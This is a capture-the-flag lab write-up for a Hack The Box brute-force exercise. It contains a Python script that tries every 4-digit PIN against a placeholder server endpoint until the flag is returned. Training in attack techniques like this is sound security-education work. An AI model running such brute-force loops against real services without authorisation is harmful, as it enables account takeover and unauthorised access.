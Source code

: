 # Brute Force Attacks

After successfully brute-forcing the PIN, what is the full flag the script returns?

This simple lab challenges us to to a simple brute force attack to a web application that requires a PIN for a special access.

To solve this we can you the script provided by the HTB:

{% code overflow="wrap" %}
```python
import requests

ip = "SERVER_IP"  # Change this to your instance IP address
port = SERVER_PORT       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```
{% endcode %}

Make sure to replace the IP e and PORT of your target machine.

Then just run the script and wait for the results:

```bash
python pin-solver.py
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After a while, the script eventually gets the PIN and we find our flag!
